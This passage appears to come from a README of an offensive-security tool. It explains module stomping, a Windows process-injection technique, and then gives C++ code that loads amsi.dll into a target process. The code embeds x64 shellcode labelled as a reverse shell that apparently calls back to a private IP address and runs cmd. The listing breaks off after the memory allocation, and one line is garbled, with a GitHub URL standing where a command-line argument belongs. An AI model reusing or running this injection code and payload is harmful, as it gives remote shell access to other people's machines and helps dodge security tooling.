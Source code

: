 With module stomping, we're going one step further. The main idea behind module stomping is to leverage already
"allocated" RX data to write our payload. This memory region is namely a module (DLL) loaded in the target process.
In its trivial form, module stomping proceeds by loading a sacrificial DLL into the target process, and locates
its entry point. After that, the technique consists in overwriting the module with the desired code, then
executing it by starting a remote thread in the victim process.



```cpp

# Taken from:
# https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection
# Creadits: @spotheplanet

#include <iostream>
#include <Windows.h>
#include <psapi.h>

int main(int argc, char *argv[])
{
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t moduleToInject[] = L"C:\\windows\\system32\\amsi.dll";
	HMODULE modules[256] = {};
	SIZE_T modulesSize = sizeof(modules);
	DWORD modulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T modulesCount = 0;
	CHAR remoteModuleName[128] = {};
	HMODULE remoteModule = NULL;

	// simple reverse shell x64
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	// inject a benign DLL into remote process
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv(https://github.com/klezVirus/inceptor.git))));
	//processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 8444);
	
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof moduleToInject, MEM_COMMIT, PAGE_READWRITE);
```